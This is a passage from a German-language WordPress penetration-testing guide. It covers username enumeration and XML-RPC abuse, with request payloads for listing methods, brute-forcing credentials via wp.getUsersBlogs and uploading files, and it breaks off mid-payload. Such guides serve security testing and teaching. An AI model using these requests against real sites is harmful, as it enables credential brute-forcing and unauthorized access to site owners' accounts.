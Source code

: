 Beachten Sie auch, dass **/wp-json/wp/v2/pages** IP-Adressen leaken könnte.

#### Login-Benutzernamen-Enumeration

Beim Login in **`/wp-login.php`** ist die **Nachricht** **anders**, je nachdem, ob der angegebene **Benutzername existiert oder nicht**.

### XML-RPC

Wenn `xml-rpc.php` aktiv ist, können Sie einen Brute-Force-Angriff auf Anmeldeinformationen durchführen oder es verwenden, um DoS-Angriffe auf andere Ressourcen zu starten. (Sie können diesen Prozess automatisieren, indem Sie [dieses](https://github.com/relarizky/wpxploit) Beispiel verwenden).

Um zu sehen, ob es aktiv ist, versuchen Sie, auf _**/xmlrpc.php**_ zuzugreifen und senden Sie diese Anfrage:

**Überprüfen**
```markup
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
![](https://h3llwings.files.wordpress.com/2019/01/list-of-functions.png?w=656)

**Anmeldeinformationen Bruteforce**

**`wp.getUserBlogs`**, **`wp.getCategories`** oder **`metaWeblog.getUsersBlogs`** sind einige der Methoden, die verwendet werden können, um Anmeldeinformationen zu bruteforcen. Wenn Sie eine davon finden können, können Sie etwas senden wie:
```markup
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
Die Nachricht _"Ungültiger Benutzername oder Passwort"_ innerhalb einer 200-Code-Antwort sollte erscheinen, wenn die Anmeldeinformationen nicht gültig sind.

![](<../../.gitbook/assets/image (107) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

![](<../../.gitbook/assets/image (721).png>)

Mit den richtigen Anmeldeinformationen können Sie eine Datei hochladen. In der Antwort wird der Pfad angezeigt ([https://gist.github.com/georgestephanis/5681982](https://gist.github.com/georgestephanis/5681982))
```markup
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
<param><value><string>1</string></value></param>
<param><value><string>username</string></value></param>
<param><value><string>password</string></value></param>
<param>
<value>
<struct>
<member>
<name>name</name>
<value><string>filename.jpg</string></value>
</member>
<member>
<name>type</name>
<value><string>mime/type</string></value>
```